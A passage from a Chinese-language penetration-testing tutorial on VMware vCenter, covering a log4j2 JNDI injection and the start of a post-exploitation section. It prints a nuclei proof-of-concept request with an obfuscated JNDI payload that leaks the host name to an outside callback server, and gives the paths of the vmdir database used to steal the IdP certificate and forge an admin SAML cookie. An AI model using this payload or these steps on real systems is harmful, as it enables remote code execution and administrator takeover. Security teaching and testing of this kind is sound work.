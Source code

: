 `com.vmware.h4.vsphere.ui.bootstrap.controller.ProvidersController.getProviderLogo()` 函数代码比较简单，通过 `URLConnection` 读取 URL 并解析。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091611840.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091611840.png-water_print")

### [](#27-log4j2-jndi-%E6%B3%A8%E5%85%A5)2.7 log4j2 JNDI 注入

VMware 的产品同样也受 log4j2 漏洞的影响，具体可以参考：[VMSA-2021-0028](https://www.vmware.com/security/advisories/VMSA-2021-0028.html)。

POC：

-   `/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-log4j-jndi-rce.yaml`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```http<br>GET /websso/SAML2/SSO/vsphere.local?SAMLRequest= HTTP/1.1<br>Host: {{Hostname}}<br>X-Forwarded-For: ${jndi:${lower:d}n${lower:s}://${env:hostName}.{{interactsh-url}}}<br>``` |

具体漏洞成因在此就不再赘述。

## [](#3-%E5%90%8E%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95)3 后渗透测试

### [](#31-saml-%E8%AF%81%E4%B9%A6%E7%99%BB%E5%BD%95)3.1 SAML 证书登录

vSphere 5.0 版本引入了 SSO，支持使用 SAML 作为授权服务支持。当用户登录服务时，该服务会将身份验证请求转发给 SAML。SAML 验证用户凭据是否正确以及他们是否有权访问指定的服务。

在 vCenter 中从 `/storage/db/vmware-vmdir/data.mdb` 提取 IdP 证书，为管理员用户创建 SAML 请求，最后使用 vCenter server 进行身份验证并获得有效的管理员 cookie。

首先需要从 vCenter 获得数据库文件：

-   Linux：`/storage/db/vmware-vmdir/data.mdb`
-   Windows：`C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091200235.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091200235.png-water_print")

利用 SAML [解密脚本](https://github.com/horizon3ai/vcenter_saml_login)生成 Cookie：
